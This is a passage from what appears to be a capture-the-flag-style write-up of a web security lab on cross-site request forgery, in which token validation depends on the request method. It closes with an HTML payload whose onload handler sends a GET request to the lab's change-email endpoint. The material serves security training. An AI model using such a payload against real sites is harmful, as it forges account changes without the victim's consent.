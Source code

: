 You get a redirection code, if you follow it the email is updated:



![img](images/CSRF%20where%20token%20validation%20depends%20on%20request%20method/5.png)



![img](images/CSRF%20where%20token%20validation%20depends%20on%20request%20method/6.png)


Payload:

```
<body onload="window.open('https://0af7002903ddc72c818c574600ce0059.web-security-academy.net/my-account/change-email?email=test3%40test.com')">
```


